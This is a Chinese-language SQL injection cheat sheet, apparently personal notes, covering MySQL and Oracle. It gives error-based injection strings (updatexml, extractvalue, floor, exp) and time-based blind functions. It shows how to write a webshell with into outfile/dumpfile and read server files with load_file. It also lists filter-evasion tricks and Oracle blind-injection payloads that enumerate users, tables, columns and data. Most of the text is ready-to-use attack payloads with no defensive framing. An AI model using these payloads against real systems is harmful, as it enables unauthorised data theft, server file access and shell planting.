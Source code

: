 ## 绕过逗号过滤
在使用盲注的时候，需要使用到substr(),mid(),limit.这些字句方法都需要使用到逗号。都与substr和mid()这两个方法，可以使用from for的方式来解决
## insert 注入
insert注入一般为时间盲注，本身不存在bool盲注。
## mysql报错函数
### 通用的报错函数
geometrycollection() //在mysql 5.6/mariadb 10.1中测试无报错  
multipoint()         //在mysql 5.6/mariadb 10.1中测试无报错  
polygon()            //在mysql 5.6/mariadb 10.1中测试无报错  
multipolygon()       //在mysql 5.6/mariadb 10.1中测试无报错  
linestring()         //在mysql 5.6/mariadb 10.1中测试无报错  
mulilinestring()     //在mysql 5.6/mariadb 10.1中测试无报错  
floor()              //可用，select * from test where id=1 and (select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2)));
updatexml()          //可用，select * from test where 1 and updatexml(1,(select concat(0x7e,user())),1)
extractvalue()       //可用，select * from test where id =1 and extractvalue(1,(select concat(0x7e,user())));
exp()                //在mysql 5.6可用/mariadb 10.1中测试无报错，select * from test where i and exp(~(select * from(select user())a));
### mysql5.7以上才有的报错函数
ST_LatFromGeoHash()  
ST_LongFromGeoHash()  
GTID_SUBSET()  
ST_PointFromGeoHash()  
## mysql中字符串拼接函数
left(str,length)           //从字符串左侧截取str的前length位  
right(str,length)           //从字符串右侧截取  
mid(str,pos,len)          //从pos位置开始，截取字符串str的len长度  
substr(a,b,c)               //效果同mid  
substring(str,pos)         //从pos位置开始，截取到最后  
## mysql中基于时间的盲注函数
+ sleep  
+ banchmark  

## mysql写shell
+ select 'xxxx' into outfile '路径'  
+ select 'xxxx' into dumpfile '路径'  
mysql读文件：select load_file('路径');  

## mysql udf提权

## mysql一些技巧
'='被过滤，可以用like代替
' '被过滤，可以用`/**/`,`/*!12345from*/`,%0a,%0b,'+'来尝试绕过
','被过滤，可以用join来绕过


# Oracle

## 一些常用的payload
ASCII(SUBSTRC((SELECT NVL(CAST(COUNT(DISTINCT(OWNER)) AS VARCHAR(4000)),CHR(32)) FROM SYS.ALL_TABLES),1,1))>51
user
AND SUBSTR((SELECT USER FROM DUAL),1,1)='J'  // 当前用户
version
select banner from v$version(where rownum=1)   //rownum 理解为行号？一种伪列。根据返回记录生成序列化数字。
字段
SUBSTRC((SELECT NVL(CAST(COLUMN_NAME AS VARCHAR(4000)),CHR(32)) FROM (SELECT COLUMN_NAME,ROWNUM AS LIMIT FROM SYS.ALL_TAB_COLUMNS WHERE TABLE_NAME=CHR(65) AND OWNER=CHR(68)||CHR(79)||CHR(67)||CHR(85)||CHR(77)||CHR(69)||CHR(78)||CHR(84) ORDER BY 1 ASC) WHERE LIMIT=1),1,1))>64
表
6495 AND ASCII(SUBSTRC((SELECT NVL(CAST(TABLE_NAME AS VARCHAR(4000)),CHR(32)) FROM (SELECT TABLE_NAME,ROWNUM AS LIMIT FROM SYS.ALL_TABLES WHERE OWNER=CHR(68)||CHR(79)||CHR(67)||CHR(85)||CHR(77)||CHR(69)||CHR(78)||CHR(84)) WHERE LIMIT=3),2,1))=85
库
6495 AND ASCII(SUBSTRC((SELECT NVL(CAST(OWNER AS VARCHAR(4000)),CHR(32)) FROM (SELECT OWNER,ROWNUM AS LIMIT FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)) WHERE LIMIT=1),1,1))>68

数据
AND ASCII(SUBSTRC((SELECT NVL(CAST("YEAR" AS VARCHAR(4000)),CHR(32)) FROM (SELECT qq.*,ROWNUM AS LIMIT FROM DOCUMENT.A qq) WHERE LIMIT=1),4,1))>48

## 函数
* cast 转换列或值
```sql
select cast(user as varchar(4000))将user的类型转化为varchar型
select cast('123' as int)将字符串转化为整形
```
* NVL(arg,value) arg为true，则返回，否则返回value
```node
if(arg)
return arg
else
return value
``` 
* substr 同mysql中substr

* WHEN...THEN...
## 一些坑点
oracle中单引号中的为字符串，双引号中的为字段名，